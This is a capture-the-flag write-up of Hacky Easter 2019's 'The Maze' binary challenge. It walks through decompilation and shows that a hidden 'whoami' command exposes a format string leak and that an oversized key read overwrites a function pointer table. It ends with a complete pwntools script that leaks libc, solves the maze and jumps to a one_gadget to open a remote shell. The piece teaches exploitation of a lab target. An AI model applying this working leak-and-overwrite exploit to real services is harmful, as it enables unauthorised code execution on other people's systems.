

# 23 - The Maze

## Description

Level: hard<br/>
Author: darkice

Can you beat the maze? This one is tricky - simply finding the exit, isn't enough!

```
nc whale.hacking-lab.com 7331
```

[maze](maze)

## Solution

### Reverse

First of all I connected to the remote server and got asked to supply a name. After that I can choose between 4
options:

```
Choose:
[1] Change User
[2] Help
[3] Play
[4] Exit
> 
```

Option two shows the following help:

```
To navigate through the maze use the following commands:
  - go <direction>	(north, south, west, east)
  - search
  - pick up
  - open
  - exit

Press enter to resume to the menue.
```

After that I entered the maze and played a bit. I quickly checked if the maze was different after reconnecting and it
was.

At this point I wrote a small solver to get through the maze. At the end of the maze I got the following text:

```
Congratulation, you solved the maze. Here is your reward:
                 *****
              ****   ****
            ***         ***
          ***             ***
        ***                 ***
      ***     ****   ****     ***
     **      ** *** **  **      **
    **           **   ***.       **
   **         .***  **  **        **
  **         ******  ****          **
 **                                 **
**        +-----------------+        **
*         | +--+ *  *  +--+ |         *
*         | |  |  ** * |  | |         *
*         | +--+ ** ** +--+ |         *
*         |  * **  ** *** * |         *
*         | * *  ** *** * * |         *
**        | +--+ * *  [] *  |        **
 *        | |  |  *** ** ** |        *
 **       | +--+ ** *** **  |       **
  **      +-----------------+      **
   **                             **
    ***                         ***
      ***                     ***
        ****               ****
           *****       *****
               *********
Press enter to return to the menue
```

Awesome, looks like we have to do some binary exploitation. First of all I decompiled the binary.
This is the main function:

```c
void main() {
  nameAndWelcome();
  printf("\x1B[H\x1B[J");
  fflush(stdout);

  while (true) {
    printf("\x1B[0;0H");
    puts("Choose:");
    puts("[1] Change User");
    puts("[2] Help");
    puts("[3] Play");
    puts("[4] Exit");
    printf("> ");
    fflush(stdout);

    int selection = -1;
    scanf("%d", &selection);

    char currentChar;

    do {
      currentChar = fgetc(stdin);
    } while (currentChar != 10 && currentChar != -1);

    fflush(stdin);

    printf("\x1B[H\x1B[J", &selection);
    printf("\x1B[8;0H");
    fflush(stdout);

    if (selection <= 4) {
      void (*function)(FILE *) = &pointerTable[8 * selection];
      function(stdout);
    } else {
      error();
    }

    selection = 0;
  }
}
```

It looks quite simple. We can see the main menue as well as a lookup into a pointer table.
Furthermore the first statement calls another function:

```c
int nameAndWelcome() {
  printf("\x1B[H\x1B[J");
  printf("Please enter your name:\n> ");
  fflush(stdout);

  fgets(&name, 16, stdin);

  if (!strchr(&name, 10)) {
    char readChar;
    do {
      readChar = fgetc(stdin);
    } while (readChar != 10 && readChar != -1 );
  }

  fflush(stdin);
  size_t nameLength = strlen(&name);

  printf("Welcome %s.\n\n", &name, nameLength);
  fflush(stdout);
  printf("\x1B[H\x1B[J");

  return fflush(stdout);
}
```

This looks quite simple as well and there's doesn't seem anything to exploit here.
The pointer table that is used in `main` looks like this:

```
.data:0000000000603140 keyInput          db 0Ah, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0; 0
.data:0000000000603140                   db 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0; 11h
.data:0000000000603160 pointerTable      dq offset error
.data:0000000000603168                   dq offset nameAndWelcome
.data:0000000000603170                   dq offset help
.data:0000000000603178                   dq offset play
.data:0000000000603180                   dq offset exitMaze
```

Some key input is stored right before the pointer table, keep this in mind. The next function I took a look at was
`play`. It contains the main logic of the maze:

```c
int play() {
  // generates a random key and a random maze
  generateKey();
  initMaze();

  printf("\x1B[H\x1B[J");
  fflush(stdout);

  for (signed int i = 0; i <= 624; i++) {
    if (maze[i] == 2) {
      col = i % 25;
      row = i / 25;
      break;
    }
  }

  signed int shouldPickup = 0;

  while (true) {
    while (true) {
      printPosition();

      printf("\x1B[20;0H");
      printf("Enter your command:\n> ");
      fflush(stdout);
      fgets(userInput, 16, stdin);

      if (!strchr(userInput, 10)) {
        char readChar;

        do {
          readChar = fgetc(stdin);
        } while (readChar != 10 && readChar != -1);
      }

      fflush(stdin);
      printf("\x1B[H\x1B[J", 10LL);
      puts("\x1B[16;0H");

      if (!compareXOR(userInput, "':+6HB")) {
        printf("\x1B[H\x1B[J", "':+6HB");
        return fflush(stdout);
      }

      if (!compareXOR(userInput, "%-b,-06*HB")) {
        if (maze[25 * (row - 1) + col]) {
          row--;
          shouldPickup = 0;
        } else {
          printf("There is a wall!", "%-b,-06*HB");
        }

        goto END_LOOP;
      }

      if (!compareXOR(userInput, "%-b1-76*HB")) {
        if (maze[25 * (row + 1) + col]) {
          row++;
          shouldPickup = 0;
        } else {
          printf("There is a wall!", "%-b1-76*HB");
        }

        goto END_LOOP;
      }

      if (!compareXOR(userInput, "%-b5'16HB")) {
        if (maze[25 * row - 1 + col]) {
          col--;
          shouldPickup = 0;
        } else {
          printf("There is a wall!", "%-b5'16HB");
        }

        goto END_LOOP;
      }

      if (!compareXOR(userInput, "%-b'#16HB")) {
        if (maze[25 * row + 1 + col]) {
          col++;
          shouldPickup = 0;
        } else {
          printf("There is a wall!", "%-b'#16HB");
        }

        goto END_LOOP;
      }

      if (!compareXOR(userInput, "1'#0!*HB")) {
        shouldPickup = 1;

        if (maze[25 * row + col] == 3) {
          printf("You found a key!", "1'#0!*HB");
        } else if ( maze[25 * row + col] == 4) {
          printf("You found a locked chest!", "1'#0!*HB");
        } else if (rand() % 3) {
          puts(messages[0]);
        } else {
          puts(messages[rand() % 9]);
        }

        goto END_LOOP;
      }

      if (compareXOR(userInput, "2+!)b72HB")) {
        break;
      }

      if (shouldPickup) {
        if (maze[25 * row + col] == 3) {
          printf("You pick up the key: %s", s1);
        } else if (maze[25 * row + col] == 4) {
          printf("This is to heavy! You can't pick up that.", "2+!)b72HB");
        } else {
          printf("There is nothing you want to pick up!", "2+!)b72HB");
        }
      } else {
        printf("Maybe you should search first", "2+!)b72HB");
      }

      END_LOOP:
      fflush(stdout);
    }

    if (!compareXOR(userInput, "-2',HB")) {
      break;
    }

    if (!compareXOR(userInput, "5*-#/+HB")) {
      printf(&name, "5*-#/+HB");
      goto END_LOOP;
    }

    error();
  }

  if (!shouldPickup) {
    printf("Maybe you should search first", "-2',HB");
    goto END_LOOP;
  }

  if (maze[25 * row + col] != 4) {
    printf("There is nothing you can open!", "-2',HB");
    goto END_LOOP;
  }

  completePrintPosition();
  printf("\x1B[20;0H", "-2',HB");
  fflush(stdout);

  signed int tries = 3;
  while (true) {
    tries--;

    if (!tries) {
      printf("Next time get the right key!");
      printf("For now get out of here! Quickly!");

      fflush(stdin);
      exit(0);
    }

    printf("The chest is locked. Please enter the key:\n> ");
    fflush(stdout);
    fgets(keyInput, 40, stdin);

    if (!strchr(keyInput, 10)) {
      while (fgetc(stdin) != 10);
    }

    fflush(stdin);

    if (!strncmp(s1, keyInput, strlen(s1))) {
      break;
    }

    puts("Sorry but that was the wrong key.");
  }

  printf("\x1B[H\x1B[J", keyInput);
  puts("Congratulation, you solved the maze. Here is your reward:");

  char* s = (char *) malloc(0x400);
  FILE* stream = fopen("egg.txt", "r");

  while (fgets(s, 1024, stream)) {
    printf("%s", s);
  }

  fclose(stream);
  printf("Press enter to return to the menue", 1024LL);
  fflush(stdout);

  char readChar2;

  do {
    readChar2 = fgetc(stdin);
  } while (readChar2 != 10 && readChar2 != -1);

  fflush(stdin);
  printf("\x1B[H\x1B[J");

  return fflush(stdout);
}
```

The user input gets compared using the function `compareXOR`, which looks like this:

```c
unsigned int compareXOR(char* a1, char* a2) {
  char v5;
  char v6;

  do {
      v6 = *(a1++);
      v5 = *(a2++) ^ 0x42;

      if (!v6 && !v5) {
         return 0;
      }
   } while (v6 == v5);

  return 1;
}
```

All this does is compare the user input with an XORed version of the second parameter. One of the commands found in the
binary is not mentioned in the `help` command:

```c
if (!compareXOR(userInput, "5*-#/+HB")) {
  printf(&name, "5*-#/+HB");
  goto END_LOOP;
}
```

Undoing the XOR operation on the string `"5*-#/+HB"` shows that the command is called `whoami`.

```js
"5*-#/+HB".split("")
          .map(e => e.charCodeAt(0) ^ 0x42)
          .map(n => String.fromCharCode(n))
          .join("")
```

The `whoami` command directly prints the username. We have a [string format
vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string) here. With this we can read/write to any memory
location. The second exploit I found is also in the play function:

```c
fgets(keyInput, 40, stdin);
```

We can see that 40 bytes are read into keyInput which is only 32 bytes long. This allows us to overwrite the first entry
of the pointer table and jump to arbitrary code. With these two bugs we can solve the challenge.

### Exploit

To exploit the binary I first checked the defenses with checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

NX is enabled so we won't be able to write our own shellcode onto the stack and execute it. I also guessed that ASLR is
enabled on the remote machine. I opened the binary in gdb and checked the mappings:

```
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x403000     0x3000        0x0 /home/hacker/Downloads/maze
            0x602000           0x603000     0x1000     0x2000 /home/hacker/Downloads/maze
            0x603000           0x604000     0x1000     0x3000 /home/hacker/Downloads/maze
            0x604000           0x625000    0x21000        0x0 [heap]
      0x7ffff7de6000     0x7ffff7e08000    0x22000        0x0 /usr/lib/x86_64-linux-gnu/libc-2.28.so
      0x7ffff7e08000     0x7ffff7f50000   0x148000    0x22000 /usr/lib/x86_64-linux-gnu/libc-2.28.so
      0x7ffff7f50000     0x7ffff7f9c000    0x4c000   0x16a000 /usr/lib/x86_64-linux-gnu/libc-2.28.so
      0x7ffff7f9c000     0x7ffff7f9d000     0x1000   0x1b6000 /usr/lib/x86_64-linux-gnu/libc-2.28.so
      0x7ffff7f9d000     0x7ffff7fa1000     0x4000   0x1b6000 /usr/lib/x86_64-linux-gnu/libc-2.28.so
      0x7ffff7fa1000     0x7ffff7fa3000     0x2000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.28.so
      0x7ffff7fa3000     0x7ffff7fa7000     0x4000        0x0 
      0x7ffff7fa7000     0x7ffff7fa9000     0x2000        0x0 
      0x7ffff7fd0000     0x7ffff7fd3000     0x3000        0x0 [vvar]
      0x7ffff7fd3000     0x7ffff7fd5000     0x2000        0x0 [vdso]
      0x7ffff7fd5000     0x7ffff7fd6000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.28.so
      0x7ffff7fd6000     0x7ffff7ff4000    0x1e000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.28.so
      0x7ffff7ff4000     0x7ffff7ffc000     0x8000    0x1f000 /usr/lib/x86_64-linux-gnu/ld-2.28.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x26000 /usr/lib/x86_64-linux-gnu/ld-2.28.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x27000 /usr/lib/x86_64-linux-gnu/ld-2.28.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
```

Our libc addresses begin with `0x7ffff7`. Now I set a breakpoint right before the username gets printed because of the
`whoami` command. Then I took a look at the current stack:

```
gdb-peda$ x/20gx $sp
0x7fffffffe3b0:	0x0000000000000000	0x00007ffff7fa2760
0x7fffffffe3c0:	0x00007ffff7f9e2a0	0x00007ffff7e55f9d
0x7fffffffe3d0:	0x0000000000000000	0x0000002200000000
0x7fffffffe3e0:	0x00007fffffffe410	0x0000000000401fac
0x7fffffffe3f0:	0x0000000000401fc0	0x0000000300400a60
0x7fffffffe400:	0x0000000000401656	0x0a00000000000000
0x7fffffffe410:	0x0000000000401fc0	0x00007ffff7e0a09b
0x7fffffffe420:	0x0000000000000000	0x00007fffffffe4f8
0x7fffffffe430:	0x0000000100000000	0x0000000000401e7a
0x7fffffffe440:	0x0000000000000000	0x5e44edf8b334dc0e
```

One of the addresses, namely `0x00007ffff7e0a09b`, was `__libc_start_main_ret`:
 
```
gdb-peda$ x/gx 0x00007ffff7e0a09b
0x7ffff7e0a09b <__libc_start_main+235>:	0x4800015f0ee8c789
```

With the help of [this database](https://libc.blukat.me/) I was able to identify the libc version that is used on the
server. To do that I set the username to `%19$p` which would print the `__libc_start_main_ret`.

```
Your position:


         +-----+
         |     |
         |  X  |
         |     |
         +     +-----+
         |           |
         |           |
         |           |
         +     +-----+

0x7fd06dc71830


Enter your command:
> 
```

Now we know that `libc_2.23-0ubuntu10_amd64` is installed on the server.



With this information I was able to calculate the libc base address:

```
libc_base = leaked __libc_start_main_ret - 0x020830
```

Now I only had to find a suitable gadget to launch a remote shell. I used
[one_gadget](https://github.com/david942j/one_gadget) for that. The following script, which was partially written by
[DrSchottky](https://github.com/DrSchottky) calculates the libc base address, solves the maze, stores the gadget address
in the pointer table and then jumps there:

```python
from pwn import *

context.binary = './maze'
nc = remote('whale.hacking-lab.com', 7331)

nc.sendlineafter('>', '%19$p')
nc.sendlineafter('>', '3')
nc.sendlineafter('>', 'whoami')

leak = nc.recvuntil('>')
pos = leak.find('0x7f')

leak = leak[pos:pos + 14]
leak = int(leak, 16)

libc_offset = 0x20830
gadget_offset = 0x4526a

libc_base = leak - libc_offset
gadget_address = libc_base + gadget_offset

currentPoint = (0, 0)
visited = [currentPoint]
moves = []
haveKey = False

nc.sendline('whoami')

while True:
  current = nc.recvuntil('>')
  print current

  canGoUp = True
  canGoDown = True
  canGoRight = True
  canGoLeft = True

  for line in current.split("\x1b"):
      currentLine = line.strip()

      if currentLine == "[9;10H|":
         canGoLeft = False

      if currentLine == "[9;16H|":
         canGoRight = False

      if currentLine == "[7;10H+-----+":
         canGoUp = False

      if currentLine == "[11;10H+-----+":
         canGoDown = False

  nc.writeline('search')
  search_result = nc.recvuntil('>').replace("\x1b[", "").split("\n")[1]

  if (search_result not in ["There is nothing interesting here.",
                       "You found a rusty nail.",
                       "Ugh! There is a skeleton!",
                       "Ugh! There is a spider!",
                       "You found a map, but unfortunately someone else has already torn out a piece.",
                       "You found an arrow stuck in the wall.",
                       "You found a broken key, looks like it won't work anymore.",
                       "Ugh! There is a giant rat!",
                       "There is a message scratched into the wall 'Hacky Easter 2019, by Darkice'."]):

     if search_result.startswith("You found a key!"):
        nc.writeline('pick up')

        extractedKey = nc.recvuntil('>').replace("\x1b[", "")

        key = extractedKey.split("You pick up the key: ")[1].split(";")[0]
        haveKey = True

     elif search_result.startswith("You found a locked chest!"):
        if not haveKey:
           print 'Found a chest but don\'t have a key...'
           break

        nc.writeline('open')
        nc.recvuntil('>')

        sentKey = key[:32].encode() + p64(gadget_address) 
        nc.writeline(sentKey)

        nc.writeline('')
        nc.writelineafter('>', '0')
        nc.interactive()

  if canGoUp:
    nextPoint = (currentPoint[0], currentPoint[1] + 1)

    if nextPoint not in visited:
       currentPoint = nextPoint
       visited.append(currentPoint)
       moves.append((0, 1))

       nc.writeline('go north')
       continue

  if canGoDown:
    nextPoint = (currentPoint[0], currentPoint[1] - 1)

    if nextPoint not in visited:
       currentPoint = nextPoint
       visited.append(currentPoint)
       moves.append((0, -1))

       nc.writeline('go south')
       continue

  if canGoRight:
    nextPoint = (currentPoint[0] + 1, currentPoint[1])

    if nextPoint not in visited:
       currentPoint = nextPoint
       visited.append(currentPoint)
       moves.append((1, 0))

       nc.writeline('go east')
       continue

  if canGoLeft:
    nextPoint = (currentPoint[0] - 1, currentPoint[1])

    if nextPoint not in visited:
       currentPoint = nextPoint
       visited.append(currentPoint)
       moves.append((-1, 0))

       nc.writeline('go west')
       continue

  if not moves:
     break

  diff = moves.pop()

  if (diff == (1, 0)):
       nc.writeline('go west')

  elif (diff == (0, 1)): 
       nc.writeline('go south')

  elif (diff == (-1, 0)): 
       nc.writeline('go east')

  elif (diff == (0, -1)): 
       nc.writeline('go north')

  currentPoint = (currentPoint[0] + (-1 * diff[0]), currentPoint[1] + (-1 * diff[1]))
```

With the shell I navigated to `/home/maze/` and found a file named `egg.png`.
I converted it to base64 to move it to my local machine.


